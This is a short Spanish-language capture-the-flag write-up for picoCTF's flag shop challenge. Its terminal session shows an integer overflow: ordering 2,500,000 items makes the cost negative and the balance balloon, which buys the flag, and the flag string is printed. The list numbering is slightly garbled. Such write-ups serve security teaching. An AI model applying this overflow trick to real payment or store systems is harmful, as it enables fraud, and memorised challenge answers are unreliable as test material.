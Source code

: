 Descripción
	There's a flag shop selling stuff, can you buy a flag? [Source](https://jupiter.challenges.picoctf.org/static/dd28f0987f28c894f35d5d48564c3402/store.c). Connect with `nc jupiter.challenges.picoctf.org 44566`.
	
Solución
	
	┌──(kali㉿DESKTOP-B014NUV)-[~]
	└─$ nc jupiter.challenges.picoctf.org 44566
	Welcome to the flag exchange
	We sell flags
	
	1. Check Account Balance
	
	2. Buy Flags
	
	3. Exit
	
	 Enter a menu selection
	1
	
	 Balance: 1100
	
	
	Welcome to the flag exchange
	We sell flags
	
	4. Check Account Balance
	
	5. Buy Flags
	
	6. Exit
	
	 Enter a menu selection
	2
	Currently for sale
	7. Defintely not the flag Flag
	8. 1337 Flag
	1
	These knockoff Flags cost 900 each, enter desired quantity
	2500000
	
	The final cost is: -2044967296
	
	Your current balance after transaction: 2044968396
	
	Welcome to the flag exchange
	We sell flags
	
	9. Check Account Balance
	
	10. Buy Flags
	
	11. Exit
	
	 Enter a menu selection
	2
	Currently for sale
	12. Defintely not the flag Flag
	13. 1337 Flag
	2
	1337 flags cost 100000 dollars, and we only have 1 in stock
	Enter 1 to buy one1
	YOUR FLAG IS: picoCTF{m0n3y_bag5_68d16363}
	
Notas adicionales
	
	
Referencias
	
	